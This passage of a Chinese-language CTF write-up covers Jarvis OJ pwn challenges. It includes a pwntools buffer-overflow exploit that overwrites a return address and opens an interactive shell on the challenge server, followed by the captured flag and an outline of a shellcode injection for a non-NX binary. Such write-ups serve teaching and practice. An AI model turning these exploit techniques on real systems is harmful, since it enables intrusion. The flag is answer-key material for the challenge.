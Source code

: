   buf大小为0x80，填充buf，覆盖rbp，改vulnerable_function的返回地址

  ```python
  from pwn import *
  r = remote('pwn2.jarvisoj.com', 9881)
  call = p64(0x400596)
  payload = 'a'*0x88 + call
  r.sendline(payload)
  r.interactive()
  ```

  ![13](https://raw.githubusercontent.com/AiDaiP/AiDaiP.github.io/master/images/Jarvis%20OJ/13.png)

  `CTF{713ca3944e92180e0ef03171981dcd41}`

  

* [XMAN]level1

  ![14](https://raw.githubusercontent.com/AiDaiP/AiDaiP.github.io/master/images/Jarvis%20OJ/14.png)

  在read处溢出，前面输出buf的地址

  没有system函数

  ![15](https://raw.githubusercontent.com/AiDaiP/AiDaiP.github.io/master/images/Jarvis%20OJ/15.png)

  没有开启NX，可以用shellcode

  buf的大小为0x88，输入shellcode，填充buf，覆盖ebp，把返回地址改为buf的地址

